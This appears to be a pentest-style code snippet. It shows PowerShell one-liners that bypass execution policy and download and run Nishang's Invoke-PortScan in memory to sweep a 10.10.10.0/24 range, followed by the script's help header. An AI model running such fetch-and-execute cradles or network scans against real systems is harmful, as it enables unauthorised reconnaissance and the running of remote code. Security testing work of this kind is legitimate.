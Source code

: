 ```powershell
powershell.exe -exec bypass -Command "IEX(New-Object Net.WebClient).DownloadString('http://127.0.0.1/Invoke-PortScan.ps1');Invoke-PortScan -StartAddress 10.10.10.0 -EndAddress 10.10.10.254 -ResolveHost -ScanPort"   
 
powershell.exe -exec bypass -Command "IEX(New-Object Net.WebClient).DownloadString('http://127.0.0.1/Invoke-PortScan.ps1');Invoke-PortScan -StartAddress 10.10.10.0 -EndAddress 10.10.10.254 -ResolveHost -ScanPort -Port 80,88,135,139,443,445,3306,3389,8080"
```

```powershell
function Invoke-PortScan {
<#
.SYNOPSIS
Nihsang payload which Scan IP-Addresses, Ports and HostNames

.DESCRIPTION
Scan for IP-Addresses, HostNames and open Ports in your Network.
    
.PARAMETER StartAddress
StartAddress Range

.PARAMETER EndAddress
EndAddress Range

.PARAMETER ResolveHost
Resolve HostName

.PARAMETER ScanPort
Perform a PortScan

.PARAMETER Ports
Ports That should be scanned, default values are: 21,22,23,53,69,71,80,98,110,139,111,
389,443,445,1080,1433,2001,2049,3001,3128,5222,6667,6868,7777,7878,8080,1521,3306,3389,
5801,5900,5555,5901

.PARAMETER TimeOut
Time (in MilliSeconds) before TimeOut, Default set to 100

.EXAMPLE
PS > Invoke-PortScan -StartAddress 192.168.0.1 -EndAddress 192.168.0.254

.EXAMPLE
PS > Invoke-PortScan -StartAddress 192.168.0.1 -EndAddress 192.168.0.254 -ResolveHost

.EXAMPLE
PS > Invoke-PortScan -StartAddress 192.168.0.1 -EndAddress 192.168.0.254 -ResolveHost -ScanPort
Use above to do a port scan on default ports.

.EXAMPLE
PS > Invoke-PortScan -StartAddress 192.168.0.1 -EndAddress 192.168.0.254 -ResolveHost -ScanPort -TimeOut 500

.EXAMPLE
PS > Invoke-PortScan -StartAddress 192.168.0.1 -EndAddress 192.168.10.254 -ResolveHost -ScanPort -Port 80

.LINK
http://www.truesec.com
http://blogs.technet.com/b/heyscriptingguy/archive/2012/07/02/use-powershell-for-network-host-and-port-discovery-sweeps.aspx
https://github.com/samratashok/nishang
    
.NOTES
Goude 2012, TrueSec
```